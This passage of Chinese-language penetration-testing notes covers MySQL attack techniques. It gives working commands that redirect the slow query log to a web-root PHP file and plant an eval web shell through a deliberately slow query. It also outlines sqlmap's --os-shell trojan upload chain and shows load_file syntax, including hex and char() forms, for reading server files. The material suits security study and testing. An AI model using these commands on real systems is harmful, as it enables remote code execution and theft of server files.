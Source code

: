 ```mysql
show variables like '%slow_query_log%';		--查看慢查询信息
set global slow_query_log=1;				--启用慢查询日志(默认禁用)
set global slow_query_log_file='C:\\phpStudy\\WWW\\shell.php';	--修改日志文件路径

show global variables like '%long_query_time%';
--查看默认时间值，当sql语句执行时间超过该值才会被计入日志中，默认10秒

select '<?php @eval($_POST[abc]);?>' or sleep(@@long_query_time+1);	--写shell到慢查询日志
```

![image-20230522182142555](../../../../images/image-20230522182142555.png)



##### sqlmap  --os-shell

- 大致流程

  ```
  获取目标信息→使用lines terminated by将具有文件上传的🐎上传到网站→逐级目录访问找到🐎
  
  →通过该🐎上传真正的命令🐎→测试命令🐎能否执行→删除上传的两个🐎
  ```

- 文件上传🐎：form表单


- php命令马：获得`disable_function`，遍历所有代码执行，命令执行函数，判断哪一个不在`disable_function`。



### 读取文件

##### `load_file`

**注意：转义字符**

```mysql
select load_file('e:\test.txt'); # \t 错误路径
select load_file('e:\\test.txt');# 正确
select load_file(0x653A5C746573742E747874);# 支持十六进制
select load_file(char(101,58,92,116,101,115,116,46,116,120,116));# 支持char函数
```
